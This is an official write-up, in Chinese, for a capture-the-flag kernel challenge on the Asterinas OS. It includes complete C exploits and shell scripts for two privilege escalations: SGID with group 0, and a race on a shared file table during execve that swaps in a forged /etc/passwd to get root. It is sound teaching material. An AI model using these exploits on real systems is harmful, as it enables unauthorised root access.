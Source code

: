 # [Binary] 传统 C 语言核易危

- 命题人：lrh2000（题面：ouuan、lrh2000）
- 飞沙走石：300 分
- 力拔山兮：400 分

## 题目描述

<center><p>
    <img src="../../problemset/media/binary-safekernel-checkcheckbug.webp" style="max-width: 100%; max-height: 250px; border-radius: 1em">
    <br><span style="opacity: 0.6">↑ 传统的 Linux 核已畏（此图与解题无关）（<a href="https://commons.wikimedia.org/wiki/File:Kernel-panic.jpg" target="_blank" rel="noopener">原图</a>）</span>
</p></center>


<blockquote>
<p>传统的内核 😯   就是用 C 语言写漏洞 👓<br>
好无趣 😫   好危险 😩<br>
而 <strong>Rust 内核</strong> 🤓☝   就是在传统的内核 🧐<br>
加入 Rust 🤭   好安全 🥰<br>
💥💥💥要爆了💥💥💥<br>
Rust 内核 🎶   飞沙走石 🪨<br>
Rust 内核 🎶   <strong>权限提升！！！</strong>🤯</p>
</blockquote>
<p>本题引入了最新最热的<a target="_blank" rel="noopener noreferrer" href="https://github.com/asterinas/asterinas">星绽操作系统内核</a>。兼容 Linux 系统调用，好耶！是 Rust，好耶！甚至还是最小化 unsafe 代码的框内核架构，那肯定没有内存安全问题了！最新代码还在推进容器化支持呢，那么作为更加基础的功能——<strong>多用户权限检查</strong>，相信也没有问题啊嗯？</p>
<p><strong>补充说明：</strong></p>
<ul>
<li>本题对星绽内核进行了定制化修改，具体参见源码的 <code>0001-GeekGame-2025.patch</code> 文件。</li>
<li>Flag 1 与 Flag 2 被存放在 <code>/flag1.txt</code> 与 <code>/flag2.txt</code>，但非 root 用户没有读取权限。具体参见 <code>init.sh</code> 等文件。</li>
</ul>
<div class="well">
<p><strong>第二阶段提示：</strong></p>
<ul>
<li>所有 Flag：<a target="_blank" rel="noopener noreferrer" href="https://man7.org/linux/man-pages/man2/execve.2.html#:~:text=If%20the%20set-user-ID,the%20group%20of%20the%20program%20file">了解 SUID 与 SGID</a>。</li>
<li>Flag 1: 阅读下发 <code>0001-GeekGame-2025.patch</code> 文件中关于修改文件所属 <strong>用户组</strong> 的相关逻辑。</li>
<li>Flag 2: 阅读共享文件表的<a target="_blank" rel="noopener noreferrer" href="https://man7.org/linux/man-pages/man2/clone.2.html#:~:text=CLONE_FILES,unshared">预期表现</a>和<a target="_blank" rel="noopener noreferrer" href="https://github.com/asterinas/asterinas/blob/257b0c63b1f039e1ec4fd94c2c7bd549f8db2830/kernel/src/syscall/execve.rs#L117-L124">实际代码</a>。</li>
</ul>
</div>

**[【附件：下载题目源码（binary-safekernel.tar.xz）】](attachment/binary-safekernel.tar.xz)**

**【终端交互：连接到题目】**

## 预期解法

首先，题面说的是真的：
 - 星绽内核确实在推进[容器化支持](https://github.com/asterinas/asterinas/issues/2214)，现在也[有 mount namespace 可以用了](https://github.com/asterinas/asterinas/pull/2379)，不过这道题因为权限问题并不能用。
 - 基本多用户权限检查也确实没做好，这个应该不用多解释了，下发 patch 中的绝大多数代码都与此相关，并且是正确的。

所以，抛开内存安全不谈，星绽内核基本的 security 其实并不咋样，所以出题人在命题时并不清楚会不会有很多天马行空的非预期解（毕竟真的有几百个 syscall 可以调用呢），因此（主要是 Flag 2）没有给足够的方向暗示。不过看上去难度控制出现了一点问题，导致第一阶段并没有选手通过 Flag 2。

### Flag 1

预期解法：审计下发的 patch，从中发现[文件的所属用户可以随便修改所属用户组](https://github.com/PKU-GeekGame/geekgame-5th/blob/master/official_writeup/binary-safekernel/src/0001-GeekGame-2025.patch#L788)，也可以设置 SGID，从而想到可以通过将可执行文件的 GID 设置为 0, 再设置 SGID，执行它就可以获得 root 用户组权限，因此能读取 `/flag1.txt`。

注意 busybox 会自动丢弃其“非法”获得的权限，所以需要自己上传一个二进制可执行文件（毕竟这是 binary 题目呢）。

```bash
#!/bin/bash

set -e

musl-gcc exp.c -Os -static -s -o exp

gen() {
	echo "cat <<EOF > /tmp/exp.b64"
	base64 exp
	echo "EOF"
	echo "base64 -d /tmp/exp.b64 > /tmp/exp"
	echo "chmod +x /tmp/exp"
	echo ""
	echo "chgrp 0 /tmp/exp"
	echo "chmod g+s /tmp/exp"
	echo ""
	echo "/tmp/exp"
}

gen | tee out
```

```c
#include <unistd.h>
#include <fcntl.h>

int main(void)
{
	int buf[32];
	read(open("/flag1.txt", O_RDONLY), buf, sizeof(buf));
	write(STDOUT_FILENO, buf, sizeof(buf));

	return 0;
}
```

### Flag 2

预期解法：审计 execve 系统调用的实现，嗯？等等，为什么要审计 execve 系统调用？
 - execve 系统调用是正常用户请求高权限（获取 root 权限或其他 capability）的常规入口（比如执行 su、sudo），且题面暗示了这个星绽内核的成熟性存疑，所以如果出问题能提权的概率较大；
 - 题目下发附件 `init.sh` 中，Flag 2 的环境与 Flag 1 的环境除了 flag 文件本身权限不同之外，最大的区别就是 Flag 2 额外[设置了 busybox 的 SUID 属性](https://github.com/PKU-GeekGame/geekgame-5th/blob/master/official_writeup/binary-safekernel/game/initramfs/init.sh#L23)，那么这就意味着能通过执行 busybox 短时间获得 root 身份，如果要利用这一点，先去看的系统调用也应该是 execve。

然后发现提示中的 [FIXME](https://github.com/asterinas/asterinas/blob/257b0c63b1f039e1ec4fd94c2c7bd549f8db2830/kernel/src/syscall/execve.rs#L117-L124)：“This is just wrong if the file table is shared with other processes”，共享（“shared”）听上去就不是很安全，所以如果再仔细查阅些资料的话可以发现 Linux 中支持通过 [`clone(CLONE_FILES)`](https://man7.org/linux/man-pages/man2/clone.2.html#:~:text=CLONE_FILES,unshared) 使得子进程与父进程共享文件表，但当子进程执行其他程序时，其文件表共享应该被撤销。

本题内核并未实现上述行为，那么子进程可以执行一个 SUID 程序（比如 su），父进程可以篡改其文件表导致出现安全性问题。具体来说，本题 busybox 是静态链接的，su 唯一会打开的文件就是 `/etc/passwd`，那么只要将其篡改就可以控制 root 用户的密码或者新加入一个 UID=0 且没有密码的新用户，完成提权并且可以修改 `/flag2.txt` 的权限使其可读。

题目环境中 QEMU 给了多核支持（[smp=2](https://github.com/PKU-GeekGame/geekgame-5th/blob/master/official_writeup/binary-safekernel/game/run.sh#L18)），所以开两个程序分别执行 su 和通过 dup 系统调用篡改 `/etc/passwd` 所对应的文件描述符即可。

```bash
#!/bin/bash

set -e

musl-gcc exp.c -Os -static -s -o exp

gen() {
	echo "cat <<EOF > /tmp/exp.b64"
	base64 exp
	echo "EOF"
	echo "base64 -d /tmp/exp.b64 > /tmp/exp"
	echo "chmod +x /tmp/exp"
	echo ""
	echo "while true; do /tmp/exp; done"
}

gen | tee out
```

```c
#define _GNU_SOURCE

#include <sched.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/wait.h>

// The password for the root user is "1" (without quotation marks).
#define FAKE_PASSWD "/tmp/passwd"
#define FAKE_ROOT "root:nnNMRAmF.Fsug:0:1000::/:/bin/sh\n"

static int fd;

static int child(void *arg)
{
	for (int i = 0; i < 1000000; ++i) {
		dup2(fd, fd + 1);
		close(fd + 1);
	}

	return -1;
}

int main(int argc, char **argv)
{
	static char stk[4096];

	if (geteuid() == 0) {
		chmod("/flag2.txt", 0777);
		read(open("/flag2.txt", O_RDONLY), stk, sizeof(stk));
		write(STDOUT_FILENO, stk, sizeof(stk));
		return 0;
	}

	fd = open(FAKE_PASSWD, O_WRONLY | O_CREAT | O_TRUNC, 0644);
	write(fd, FAKE_ROOT, sizeof(FAKE_ROOT));
	close(fd);

	fd = open(FAKE_PASSWD, O_RDONLY);

	clone(&child, stk + sizeof(stk), CLONE_FILES | CLONE_PARENT | SIGCHLD,
	      NULL);
	execve("/bin/su", (char *[]){ "/bin/su", "-s", argv[0], NULL }, NULL);

	return -1;
}
```

## 优秀选手解法

 - Flag 1：[可以 100% AI 出。](https://github.com/PKU-GeekGame/geekgame-5th/blob/master/players_writeup/2407/README.md#%E4%BC%A0%E7%BB%9F-c-%E8%AF%AD%E8%A8%80%E6%A0%B8%E6%98%93%E5%8D%B1%E7%AC%AC%E4%B8%80%E9%97%AEai-%E8%BE%85%E5%8A%A9-100)
 - Flag 2：其实用 `lseek(3, 0, SEEK_CUR)` 探测 `/etc/passwd` 有没有被 su 打开更加可靠一些。

